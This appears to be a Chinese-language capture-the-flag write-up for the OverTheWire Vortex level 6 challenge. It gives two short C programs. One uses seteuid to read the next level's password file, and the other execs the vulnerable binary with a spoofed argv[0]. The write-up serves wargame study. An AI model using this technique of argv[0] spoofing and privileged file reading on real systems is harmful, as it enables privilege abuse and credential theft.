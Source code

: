 ```yaml
---
title: vortex6
author: rk700
layout: post
redirect_from: /writeup/2014/07/08/vortex6
tags:
  - OverTheWire
  - exploit
---
```

反汇编之后，发现同样存在format string。但这次还有一restart函数，检查发现他exec了我们的argv[0]。但是argv[0]可以是任意的内容提交给他，所以我们写一个读密码的程序：

{% highlight c %}
#include <unistd.h>
#include <stdio.h>

int main (int argc, char *argv[]) {
    seteuid(5007);
    FILE *fp = fopen("/etc/vortex_pass/vortex7", "r");
    char buf[128];
    size_t numRead = fread(buf, 1, sizeof buf, fp);
    buf[numRead] = 0;
    printf("%s\n", buf);
    return 0;
}
{% endhighlight %}


因为在exec过程中，euid被保存到saved uid里，所以我们要先恢复euid。但这里我不知道怎么得到saved uid，只能hard coded

然后写一个程序调用vortex6:

{% highlight c %}
#include <unistd.h>

int main (int argc, char *argv[]) {
    char *args[] = {"/tmp/nabla/read",NULL};
    execv("/vortex/vortex6", args);
}
{% endhighlight %}
